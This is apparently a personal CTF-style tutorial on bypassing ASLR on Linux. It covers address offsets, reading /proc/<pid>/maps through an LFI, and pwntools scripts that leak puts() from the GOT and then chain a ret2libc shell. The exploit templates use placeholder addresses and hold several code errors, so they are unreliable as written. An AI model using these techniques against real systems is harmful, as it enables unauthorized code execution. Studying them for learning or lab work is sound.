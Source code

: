 # ASLR Bypass

Address Space Layout Randomisation (ASLR) is a feature that causes memory addresses of functions and instructions to be randomised. Each time we run a binary, all of the addresses would change and never be the same.

In earlier Buffer Overflows, we examined how controlling the EIP can lead to RCE, with or without NX protection. However, with ASLR enabled, even if we can control the EIP, we cannot 'jump' anywhere because we wouldn't know where to jump to with ASLR enabled.

## Concepts

In order to bypass ASLR, we need to understand how it functions, as well as how functions are called. When we run a binary, the libraries and functions of that binary are loaded into virtual memory.

<figure><img src="../.gitbook/assets/image (2917).png" alt=""><figcaption></figcaption></figure>

With ASLR enabled, the library would be **loaded at different places in memory** each time. With the main library being loaded differently, all functions called in the library are affected and have different locations in memory.

Functions are called based on **offsets**. For example, if the libc library is loaded at `0x10000000`, and the offset for the `printf()` function is `0x00001000`, then when a program is run and `printf()` is called, it is mapped at `0x10001000`. \
Generally, base address (where library is called) + offset = memory location of function.

The vulnerability arises because when ASLR is enabled, **the offset does not change and is constant**. So, if we are able to find the base address where the library is called, we can use the constant offsets to load certain functions.&#x20;

### **Methods**

To bypass ASLR, there are a few methods possible

* Information Leak Vulnerability
  * Can be an LFI or anything else that lets us **read memory locations on the machine**.&#x20;
  * Memory disclosure vulnerabilities also can work.
* Brute Forcing
  * Perhaps the range of addresses where the library is loaded is rather small. This indicates that the base address could be brute forced and a simple for loop can cover all of it rather quickly.&#x20;
  * Done in the October box from HTB.
* Memory Spraying
  * Involves using an amplification gadget, which is a piece of code that takes an existing chunk of data and copies it, allowing the attacker to spray a large amount of memory by only sending a relatively small number of bytes.
  * Heap spraying is not as feasible anymore (but still possible on iOS devices).

### Proc Maps

On Linux machines, we can inspect the mappings of a process given its pid through `procfs`, which is done through reading the file at `/proc/<pid>/maps`. Here's some sample output from the Retired box from HTB (which had an LFI):

```bash
$ cat /proc/407/maps
555aa1164000-555aa1165000 r--p 00000000 08:01 2408                       /usr/bin/activate_license
555aa1165000-555aa1166000 r-xp 00001000 08:01 2408                       /usr/bin/activate_license
555aa1166000-555aa1167000 r--p 00002000 08:01 2408                       /usr/bin/activate_license
555aa1167000-555aa1168000 r--p 00002000 08:01 2408                       /usr/bin/activate_license
555aa1168000-555aa1169000 rw-p 00003000 08:01 2408                       /usr/bin/activate_license
....... <truncated>
7f4888c53000-7f4888c54000 r--p 00000000 08:01 3630                       /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f4888c54000-7f4888c74000 r-xp 00001000 08:01 3630                       /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f4888c74000-7f4888c7c000 r--p 00021000 08:01 3630                       /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f4888c7d000-7f4888c7e000 r--p 00029000 08:01 3630                       /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f4888c7e000-7f4888c7f000 rw-p 0002a000 08:01 3630                       /usr/lib/x86_64-linux-gnu/ld-2.31.so
....... <truncated>
7ffe99226000-7ffe99247000 rw-p 00000000 00:00 0                          [stack]
7ffe9932a000-7ffe9932e000 r--p 00000000 00:00 0                          [vvar]
7ffe9932e000-7ffe99330000 r-xp 00000000 00:00 0                          [vdso]
```

This provides memory addresses for each loaded library as well as the program itself. It also identifes areas of memory that are writable or executable.&#x20;

Now, suppose we do this multiple times, we can find out a few things like:

* How wide is the range of addresses? Can it be brute-forced?&#x20;
* Where is the stack loaded?
* Where is the heap relative to the binary?

In general, reading this (if we are able to) allows us to find out more efficient methods of exploitation.

## Information Leak

Now, suppose we have a leak to abuse. This involves using the PLT and GOT tables within the binary:

* Procedure Linkage Table is used to call external procedures whose address is not known in the time of linking, and is left to be resolved by the dynamic linker at run time.
* Global Offsets Table is similar but is used to resolve addresses.

Since the GOT and PLT are used everywhere in the binary, they must have static memory addresses, and the GOT needs to have write permissions.

The leak is exploited through using the `puts()` function to print the address of the `puts()` function (yes you read it right) in the `libc` file mapped in the GOT table, which would allow us to retrieve the base address of `libc` to call other functions, all at run time.

To do this, we would need 3 things:

1. Address of `pop rdi` to pass the argument to the RDI register, which would be used to puts.&#x20;
2. Address of GOT table where the `puts` in libc is.
3. Address of puts to print the address leaked.

To execute this, we can do the following commands:

```bash
ROPgadget --binary <binaryname> > gadgets.txt
cat gadgets.txt | grep "pop rdi"

objdump -D <binary> | grep puts
objdump -D <binary> | grep main
```

This would print the addresses we need for the script below:

```python
from pwn import *
p = process('./binary')
context(os='linux', arch='amd64)

offset = "A" * 300 # change number
pop_rdi = p64(<pop_rdi addr>)
got_put = p64(<puts@GLIBC addr>)
plt_put = p64(<puts@plt addr>)
plt_main = p64(<main addr>

payload = junk + pop_rdi + got_put + plt_put + plt_main

p.sendline(payload)
p.recvline() # depends on what we need

leaked_puts = p.recvline().strip.ljust(8,"\x00")
log.success('Leaked puts(): ' + str(leaked_puts))
p.interactive(prompt='')
```

But wait, why do we need the `main()` address? Well, this is because once our process is stopped, the address leaked will be randomised in the next execution, meaning that we cannot end the process and need a way to preserve it.

By using the main address function, we can 'preserve' this address and make the program wait at `main()` for the second stage of our exploit.

The next part of the exploit would be a basic ret2libc or ROP chain, depending on whether NX is enabled or what is possible. For this example, I will be using a simple ret2libc exploit. Since the offsets of the functions needed for this are **constant**, all we need to do now is use the address of `puts` to dump the function of the library.&#x20;

First we need to find the address of the `puts()` function within the `libc` file, as well as the `system()`, `/bin/sh`, and `exit()` for our ret2libc.

```bash
readelf -s /usr/lib/x86_64-linux-gnu/libc.so.6 |grep puts
readelf -s /usr/lib/x86_64-linux-gnu/libc.so.6 |grep system
strings -a -t x /usr/lib/x86_64-linux-gnu/libc.so.6 |grep /bin/sh
```

From the script below, we would be able to find the base address of where `libc` is loaded, and because we never technically exited the program, **the address is not randomised again**. (remember that we called `main()` again in the first payload)

```python
from pwn import *
p = process('./binary')
context(os='linux', arch='amd64')

offset = "A" * 300 # change number
pop_rdi = p64(<pop_rdi addr>)
got_put = p64(<puts@GLIBC addr>)
plt_put = p64(<puts@plt addr>)
plt_main = p64(<main addr>

payload = junk + pop_rdi + got_put + plt_put + plt_main

p.sendline(payload)
p.recvline() # depends on what we need

leaked_puts = p.recvline().strip.ljust(8,"\x00")
log.success('Leaked puts(): ' + str(leaked_puts))

leaked_puts = u64(leaked_puts)

libc_put = <libc puts addr>
offset = leaked_puts - libc # this gives us the base libc address

log.info('glibc offset: %x', offset)

libc_system = <system addr>
libc_binsh = </bin/sh addr>

sys = p64(offset + libc_system)
sh = p64(offset + libc_binsh)

payload2 = junk + pop_rdi + sh + sys
p.sendline(payload2)
p.recvline()

p.interactive(prompt="")
```

And this is how we bypass ASLR using an Information Leak.

## Memory Spraying

To bypass ASLR without the above method is a lot more difficult. This would require memory spraying, which lets us map contiguous memory of a given size, on a given range of addresses.&#x20;

This abuses a **memory leak, a bug of which memory is never 'freed'** and triggering it multiple times until the desired amount of memory has been leaked. Also, it uses an **amplification gadget** which is a piece of code that takes an existing chunk of data and copies it, allowing the attacker to spray a large memory range by only sending a small number of bytes.&#x20;

For now, I don't have enough knowledge on this to write a proper explanation, so here's a good resource I used to (sort of) understand what's going on.

{% embed url="https://github.com/nick0ve/how-to-bypass-aslr-on-linux-x86_64" %}
